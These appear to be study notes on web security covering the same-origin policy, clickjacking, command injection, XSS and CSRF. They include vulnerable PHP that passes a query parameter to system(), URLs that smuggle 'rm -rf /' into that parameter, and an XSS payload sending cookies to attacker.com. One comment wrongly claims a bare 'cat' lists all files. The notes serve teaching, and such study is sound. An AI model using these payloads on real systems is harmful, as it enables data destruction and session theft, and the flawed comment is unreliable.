 **Same-Origin Policy**:

- SOP in JS and DOM: A web page can only access data from the same origin, defined as **same protocol, same domain, same port**.
- SOP in cookies: Cookies are only sent to the same origin, defined as **same domain, same port**.

#### User Interface Security

**Clickjacking**: The attacker places a transparent iframe on top of a button, so when the user clicks the button, they are actually clicking the iframe.

Solution:

- **Framebusting**: JS code that detects if the page is in an iframe, and breaks out of the frame.
- **X-Frame-Options**: HTTP header that tells the browser not to render the page in a frame.

**Command Injection**: Attacker injects commands into a form field.

e.g. Vulnerable PHP code:

```php
<? echo system("cat " . $_GET['file']); ?>
```

```
http://example.com/?display.php?file=rm%20-rf%20/ // execute: cat rm -rf / -> does nothing
http://example.com/?display.php?file=notes.txt%3B%20rm%20-rf%20/ // execute: cat notes.txt; rm -rf / -> dangerous
http://example.com/?display.php?file=%20%20%20 // execute: cat -> list all files
```

**Cross-Site Scripting (XSS)**: Attacker injects malicious scripts into web pages.

Types of XSS:

- **Reflected XSS**: Attacker injects a script into a URL, and the script is reflected back to the user.
- **Stored XSS**: Attacker injects a script into a database, and the script is displayed to all users.
- **DOM-based XSS**: Attacker injects a script into the DOM, and the script is executed by the browser.

Example:

```html
http://example.com/search?q=<script>document.write('<img src="http://attacker.com/?cookie=' + document.cookie + '">')</script>
```

Solution:

- **Input validation**: Validate and sanitize user input.
- **Output encoding**: Encode user input before displaying it.
- **Content Security Policy (CSP)**: HTTP header that tells the browser what content is allowed to be loaded.
- **X-XSS-Protection**: HTTP header that tells the browser to block pages with XSS attacks.

**Cross-Site Request Forgery (CSRF)**: Attacker tricks the user into performing actions on a website without their knowledge.
